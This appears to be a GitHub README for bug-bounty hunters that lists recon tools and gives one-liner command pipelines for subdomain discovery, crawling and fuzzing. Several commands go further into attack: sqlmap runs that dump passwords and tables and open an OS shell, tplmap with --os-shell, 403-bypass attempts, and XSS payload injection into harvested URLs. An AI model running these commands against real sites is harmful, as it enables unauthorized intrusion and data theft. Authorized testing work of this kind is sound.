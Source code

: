 ## Recon of Recon

## Credits

[OFJAAAH](https://github.com/OFJAAAH)<br>
[c4ng4c3ir0 ](https://github.com/c4ng4c3ir0)<br>

## Tools

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Subzy](https://github.com/PentestPad/subzy)<br>
[Whatweb](https://www.kali.org/tools/whatweb/)<br>
[Nikto](https://github.com/sullo/nikto/tree/master)<br>
[Tplmap](https://github.com/epinna/tplmap)<br>
[Parabellum](https://github.com/wtechsec/Parabellum-XSS-Scanner/tree/main)<br>
[FFUF](https://github.com/ffuf/ffuf)<br>
[Dirsearch](https://github.com/maurosoria/dirsearch)<br>
[FuzzingTemplates](https://github.com/projectdiscovery/fuzzing-templates/tree/main)<br>
[Byp4xx](https://github.com/Rizsyad/byp4xx)<br>
[Assetfinder](https://github.com/tomnomnom/assetfinder)<br>


###  Dorks. 

```bash
inurl:responsible disclosure program
inurl:vulnerability disclosure program
inurl:vulnerability program rewards
inurl:security report vulnerability
inurl:bugbounty reward program 
```


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx-toolkit -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;

python sqlmap.py -u "www.exemplo.com?id=1" --batch --banner
python sqlmap.py -u "www.exemplo.com?id=1" --batch --passwords
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dbs
python sqlmap.py -u "www.exemplo.com?id=1" --batch --tables -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dump -T users -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --os-shell
```

###  Whatweb. 

```bash
whatweb $(cat url) | anew whatweb;
```


###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | anew subfinder;
```

###  SSTI. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '{{7*7}}' | freq | anew ssti;
```


###  SubzyTakeOver. 

```bash
subzy run --targets subfinder | anew subzytakeover;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```

###  Parabellum. 

```bash
sudo python3 Parabellum-XSS-Scanner.py
```


###  Nikto. 

```bash
cd nikto/program
./nikto.pl -h http://www.example.com
```

###  Tplmap. 

```bash
python2.7 ./tplmap.py -u '<http://www.target.com/page?name=John*>' --os-shell
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=*&comment=supercomment&link>"
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link>" --level 5 -e jade
```

###  Crt.sh. 

```bash
curl -s "https://crt.sh/?q=$(cat url)&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx-toolkit -title -silent | anew crtsh;
```

###  BYP4XX. 

```bash
python3 byp4xx.py --url https://$(cat url) --dir secret --header | anew byp4xxheader;
python3 byp4xx.py --url https://$(cat url) --dir secret --protocol | anew byp4xxprotocol;
python3 byp4xx.py --url https://$(cat url) --dir secret --port | anew byp4xxport;
python3 byp4xx.py --url https://$(cat url) --dir secret --method | anew byp4xxmethod;
python3 byp4xx.py --url https://$(cat url) --dir secret --encode | anew byp4xxencode;
python3 byp4xx.py --url https://$(cat url) --dir secret --all | anew byp4xxall;
```


###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

### FuzzingTemplates.

```bash
nuclei -t fuzzing-templates -list allurls | anew fuzzingtemplates;
```

### Dirsearch.

```bash
sudo python3 dirsearch -u https://target.com | anew dirsearch;
```


###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```

###  FFUF. 

```bash
ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u https://$(cat url)/FUZZ -mc all -c -v | anew ffuf
```


###  Xss1. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx-toolkit -silent | qsreplace '<script>alert(1)</script>' | freq | egrep -v 'Not' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```

